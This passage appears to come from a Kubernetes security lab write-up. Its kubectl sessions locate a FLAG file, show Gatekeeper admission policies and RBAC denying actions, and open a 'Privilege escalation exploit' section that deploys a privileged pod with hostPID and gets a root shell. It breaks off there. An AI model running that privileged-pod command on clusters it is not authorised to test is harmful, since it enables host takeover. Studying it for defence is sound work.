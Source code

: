 ```
gatekeeper-controller-manager-578dc6fb84-4b4sk   1/1     Running   1          48m
[nova@nova .kube]$ k get po
No resources found in default namespace.
[nova@nova .kube]$ k get no
NAME                                          STATUS   ROLES    AGE   VERSION
ip-1-2-3-1.eu-west-1.compute.internal   Ready    node     40d   v1.13.10
ip-1-2-3-2.eu-west-1.compute.internal    Ready    node     40d   v1.13.10
ip-1-2-3-3.eu-west-1.compute.internal    Ready    master   40d   v1.13.10
```

The flag

```
[nova@nova .kube]$ k get po -n flag
NAME                     READY   STATUS    RESTARTS   AGE
nginx-7cdbd8cdc9-67gv6   1/1     Running   0          2m44s
[nova@nova .kube]$ k exec -it nginx-7cdbd8cdc9-67gv6 /bin/bash -n flag
root@nginx-7cdbd8cdc9-67gv6:/# ls -la | grep FLAG
-rw-r--r--   1 root root   12 Dec 30 01:46 FLAG
```

Now to demonstrate policy enforcement is working. Notice I am still cluster admin at this point.

```
[nova@nova .kube]$ k create ns my-new-namespace
Error from server ([denied by ns-must-have-gk] you must provide labels: {"gatekeeper"}): admission webhook "validation.gatekeeper.sh" denied the request: [denied by ns-must-have-gk] you must provide labels: {"gatekeeper"}
```

Switching over to our `default` config you can see RBAC is also now working.

```
[nova@nova .kube]$ k get po -n falco
NAME             READY   STATUS    RESTARTS   AGE
falco-ds-v6jtd   1/1     Running   19         38d
falco-ds-zdsgm   1/1     Running   21         38d
[nova@nova .kube]$ cp config-default config
cp: overwrite 'config'? y
[nova@nova .kube]$ k get po -n falco
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:default:nova-sa" cannot list resource "pods" in API group "" in the namespace "falco"
[nova@nova .kube]$ k create ns my-new-namespace
Error from server (Forbidden): namespaces is forbidden: User "system:serviceaccount:default:nova-sa" cannot create resource "namespaces" in API group "" at the cluster scope
[nova@nova .kube]$ 
```

## Privilege escalation exploit 

First, deploy a privileged pod to Kubernetes

```
[nova@nova ~]$ kubectl run entry --image nginx --overrides '{"spec":{"hostPID":true,"containers":[{"name":"nginx","image":"nginx","command":["/bin/bash"],"stdin":true,"tty":true,"securityContext":{"privileged":true}}]}}' --rm --restart=Never -it --attach
If you don't see a command prompt, try pressing enter.
root@entry:/#
```
